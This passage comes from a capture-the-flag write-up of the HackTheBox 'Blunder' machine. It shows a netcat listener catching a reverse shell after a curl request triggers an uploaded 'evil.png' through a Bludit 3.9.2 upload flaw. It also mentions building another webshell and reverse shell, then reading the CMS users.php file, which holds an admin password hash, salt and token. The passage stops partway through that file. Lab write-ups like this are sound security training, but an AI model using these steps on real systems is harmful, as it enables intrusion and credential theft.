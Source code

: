 	5. Start listener and execute `evil.png`
		```
		┌──(root💀kali)-[~/htb/blunder]
		└─# nc -nvlp 53
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::53
		Ncat: Listening on 0.0.0.0:53
		
		┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit/dirTraversal]
		└─# curl http://blunder.htb/bl-content/tmp/temp/evil.png
		
		┌──(root💀kali)-[~/htb/blunder]
		└─# nc -nvlp 53
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::53
		Ncat: Listening on 0.0.0.0:53
		Ncat: Connection from 10.10.10.191.
		Ncat: Connection from 10.10.10.191:47562.
		```
3. Demo - `Bludit 3.9.2` Directory Traversal + Image Upload Exec
	![](ySiVbMLf93.gif)
4. For some reason, I could not spawn a stable shell, to work around it, I created a another webshell from the current shell, invoked a reverse shell and continued from there.


# Privilege Escalation

## Hugo - Found Creds
1. After obtaining the `www-data` user, I proceed to the `/home` directory and found 2 other users
	```
	www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ ls -la /home
	total 16
	drwxr-xr-x  4 root  root  4096 Apr 27  2020 .
	drwxr-xr-x 21 root  root  4096 Jul  6  2021 ..
	drwxr-xr-x 16 hugo  hugo  4096 May 26  2020 hugo
	drwxr-xr-x 16 shaun shaun 4096 Jul  6  2021 shaun
	```
2. Since `bludit` is a CMS, there should be a database somewhere, possibly containing more credentials
	> [This](https://docs.bludit.com/en/developers/folder-structure) document shows the directory structure of `bludit`, there is an interesting file `users.php`, hashes are stored there.
	{: .prompt-info }
3. View `/var/www/bludit-3.9.2/bl-content/databases/users.php`
	```
	www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
	<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
	{
	    "admin": {
	        "nickname": "Admin",
	        "firstName": "Administrator",
	        "lastName": "",
	        "role": "admin",
	        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
	        "salt": "5dde2887e7aca",
	        "email": "",
	        "registered": "2019-11-27 07:40:55",
	        "tokenRemember": "",
	        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
	        "tokenAuthTTL": "2009-03-15 14:00",
	        "twitter": "",
	        "facebook": "",
	        "instagram": "",